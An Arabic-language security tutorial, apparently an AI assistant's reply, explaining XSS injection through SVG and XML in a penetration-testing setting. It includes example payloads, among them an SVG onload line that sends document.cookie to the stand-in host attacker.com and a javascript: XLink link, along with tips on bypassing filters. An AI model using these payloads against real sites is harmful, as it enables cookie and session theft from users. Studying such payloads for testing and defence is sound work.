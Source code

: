 بناءً على طلبك لشرح **الحقن المستخدمة في SVG وXML (SVG and XML Payloads)** باستخدام نفس طريقة الشرح المقدمة (التي تتضمن أقسامًا مثل "ما المقصود؟"، "لماذا يعمل؟"، "كيف يتم الاستغلال؟"، والخطوات العملية)، سأقدم شرحًا مفصلاً ومنظمًا لهذه الخطوة في اختبار ثغرات Cross-Site Scripting (XSS). سأغطي جميع المحاولات الممكنة لاستغلال ثغرة XSS باستخدام تنسيقات **SVG** (Scalable Vector Graphics) و**XML**، مع التركيز على حقن JavaScript داخل هذه التنسيقات لتنفيذ شيفرات ضارة. سيتم تقسيم المحاولات إلى فئات (مثل حقن SVG باستخدام وسم `<script>`، استخدام أحداث SVG، واستغلال XML عبر XLink أو معالجة البيانات). سيتم تضمين المحتوى في علامة `<xaiArtifact>` كما هو مطلوب، مع معرف جديد لأن هذا طلب مستقل يركز على خطوة محددة. سأحافظ على الشرح باللغة العربية بأسلوب واضح ومنظم، متجنبًا تنسيق Markdown خارج العلامة بناءً على طلبك السابق.

---

## فهم الخطوة: الحقن المستخدمة في SVG وXML (SVG and XML Payloads)

### ما المقصود؟
الحقن المستخدمة في **SVG وXML** هي شيفرات JavaScript أو هياكل بيانات تُستخدم لاستغلال ثغرات Cross-Site Scripting (XSS) من خلال إدراج شيفرات ضارة داخل ملفات أو عناصر بتنسيق **SVG** (رسومات متجهية قابلة للتطوير) أو **XML** (لغة الترميز القابلة للتوسيع). تُستغل هذه الحقن في التطبيقات التي تسمح بتحميل أو عرض محتوى SVG/XML دون تنظيف كافٍ، مما يتيح تنفيذ JavaScript عبر وسوم مثل `<script>`، أحداث SVG (مثل `onload` أو `onclick`)، أو روابط XLink في XML. تُستخدم هذه الحقن في سياقات **XSS المنعكس**، **XSS المخزن**، و**XSS القائم على DOM** لتنفيذ إجراءات مثل سرقة البيانات، التلاعب بالصفحة، أو إعادة التوجيه.

### لماذا يعمل؟
- **دعم المتصفحات لـ SVG**: تُعامل المتصفحات ملفات SVG كجزء من DOM، مما يسمح بتنفيذ JavaScript داخل وسوم مثل `<script>` أو من خلال أحداث مثل `onload` و`onclick`.
- **مرونة XML**: يدعم XML روابط XLink ومعالجة البيانات التي يمكن أن تتضمن JavaScript أو إحالات خارجية، مما يتيح تنفيذ شيفرات ضارة إذا لم يتم تنظيف الإدخال.
- **ضعف التنظيف**: العديد من التطبيقات لا تُنظف محتوى SVG/XML بشكل صحيح، خاصة إذا سُمح بتحميل ملفات أو إدخال وسوم مباشرة.
- **تجاوز الفلاتر**: تُستخدم وسوم وأحداث SVG/XML لتجاوز فلاتر XSS التي تحظر وسوم HTML شائعة مثل `<script>` أو `<img>`.
- **إرسال البيانات**: يمكن للحقن إرسال بيانات حساسة (مثل `document.cookie`) إلى خادم خارجي عبر طلبات HTTP أو روابط XLink.

### كيف يتم الاستغلال؟
- يتم إدخال شيفرة SVG أو XML تحتوي على JavaScript في نقطة إدخال عرضة لـ XSS (مثل حقل تحميل ملف، معلمة URL، أو حقل نصي).
- تُصمم الحقنة لتُنفذ عند عرض المحتوى في المتصفح، إما مباشرة (مثل عرض صورة SVG) أو عند التفاعل (مثل النقر على عنصر SVG).
- تُستخدم الشيفرة لتنفيذ إجراءات ضارة مثل:
  - سرقة ملفات تعريف الارتباط (`document.cookie`).
  - استخراج محتوى الصفحة (`document.body.innerHTML`).
  - إعادة توجيه المستخدم إلى موقع ضار.
- يتم مراقبة خادم خارجي (إذا أُرسلت بيانات) أو استجابة المتصفح لتأكيد التنفيذ:
  - **نجاح (True)**: الشيفرة تُنفذ (مثل ظهور تنبيه أو إرسال بيانات إلى خادم المهاجم).
  - **فشل (False)**: لا يتم التنفيذ بسبب فلاتر أو قيود (مثل CSP أو تنظيف الإدخال).
- تُكيَّف الحقن لتجاوز القيود (مثل استخدام أحداث SVG غير شائعة أو تعتيم الشيفرة).

### السناريو
لنفترض أنك تختبر موقعًا إلكترونيًا يسمح بتحميل صور SVG في ملف تعريف المستخدم أو إدخال محتوى في حقل نصي يُعرض كجزء من صفحة. اكتشفت أن الموقع لا يُنظف محتوى SVG بشكل صحيح، ويمكن إدراج وسم مثل `<svg><script>alert('XSS')</script></svg>` لتنفيذ تنبيه. تريد الآن استخدام حقنة SVG مثل `<svg onload="fetch('http://attacker.com/log?c='+document.cookie)"></svg>` أو حقنة XML مثل `<a xlink:href="javascript:alert('XSS')">Click</a>` لاستخراج بيانات حساسة أو تنفيذ إجراءات ضارة. إذا تلقى خادمك البيانات أو نُفذت الشيفرة، فهذا يؤكد وجود ثغرة XSS عبر SVG/XML.

---
